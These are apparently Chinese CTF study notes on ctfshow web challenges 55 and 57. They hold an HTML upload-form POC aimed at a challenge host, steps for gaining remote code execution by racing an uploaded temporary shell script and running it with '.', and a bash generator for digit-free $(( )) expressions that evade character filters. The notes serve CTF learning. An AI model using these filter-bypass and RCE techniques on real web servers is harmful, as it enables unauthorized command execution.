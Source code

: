 # 上传临时文件

利用条件竞争实现rce

构造post提交数据包

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://46230c96-8291-44b8-a58c-c133ec248231.chall.ctf.show/" method="post" enctype="multipart/form-data">

<!--替换为目标url-->

    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```



上传文件，抓包，然后修改上传文件内容为sh脚本

利用 . 执行sh脚本实现rce



详见ctfshow web入门 web55





参考

[无字母数字绕过正则表达式总结（含上传临时文件、异或、或、取反、自增脚本）-CSDN博客](https://blog.csdn.net/miuzzx/article/details/109143413)

[无字母数字webshell之提高篇 | 离别歌](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)





# 无字母数字利用$(())拼接数字

```
#!/bin/bash
result=""
for i in `seq $(($1 + 1))`;do
        result+="\$((~\$(())))"
done

result_1="\$(($result))"
result_2="\$((~$result_1))"
echo $result_2
```

![image-20250404144321651](./assets/image-20250404144321651.png)



详见ctfshow web入门57
